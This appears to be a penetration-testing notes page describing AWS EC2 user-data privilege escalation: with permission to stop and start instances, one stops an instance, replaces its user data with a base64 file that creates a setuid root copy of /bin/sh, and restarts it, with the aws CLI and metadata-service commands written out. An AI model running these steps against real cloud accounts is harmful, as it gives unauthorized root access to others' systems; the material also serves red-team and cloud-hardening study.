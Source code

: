 # AWS EC2 Userdata Privilege Escalation

## Requirements: Our user/role/policy has permissions to start and stop EC2 instances at will

### We can leverage user data to execute commands in the context of root on Linux at launch. In the example below we've added commands to create a copy of the root-owned binary /bin/sh and add the setuid bit, allowing us to run the binary as root (example). The EC2 instance has to be in a stopped state for us to update the user data.

## Steps

 - base64 userdata.txt > userdata.b64.txt (Encode our userdata with base64)

 - curl http://169.254.169.254/latest/meta-data/instance-id (We'll need to specify the ID of the EC2 instance to modify, and can get this from the metadata service.)

 - aws ec2 stop-instances --instance-id INSTANCE_ID (Stop EC2 Instance)

 - aws ec2 modify-instance-attribute --instance-id=INSTANCE_ID --attribute userData --value file://userdata.b64.txt (Update the userdata with our malicious file)

 - aws ec2 start-instances --instance-id INSTANCE_ID (Start EC2 Instance to load our malicious userdata file)

 - aws ec2 describe-instances --instance-ids INSTANCE_ID --query 'Reservations[*].Instances[*].PrivateIpAddress' --output text (Check the private IP address of the target instance. This is optional)







